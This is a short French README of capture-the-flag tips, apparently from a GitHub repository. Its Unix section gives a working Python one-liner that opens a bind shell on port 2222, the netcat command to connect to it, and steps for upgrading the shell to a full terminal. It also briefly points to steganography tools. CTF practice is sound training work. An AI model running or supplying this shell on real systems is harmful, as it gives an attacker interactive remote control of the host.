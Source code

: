 Tips et tools utiles pour les CTFs

# Tips
## Unix 
Merci à @Clayno pour ses tips!

### Obtenir un shell
Pour ouvrir une connexion sur le port 2222:
```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
La connexion sur l'hôte se fait via 
```
nc -nv [adresse] 2222
```
Améliorer le shell en pty et avoir l'autocomplétion:
```
python -c "import pty; pty.spawn('/bin/bash')"
CTRL+Z
stty raw -echo
fg
```
## Steganographie
Tester zsteg

Cheat sheet : https://pequalsnp-team.github.io/cheatsheet/steganography-101
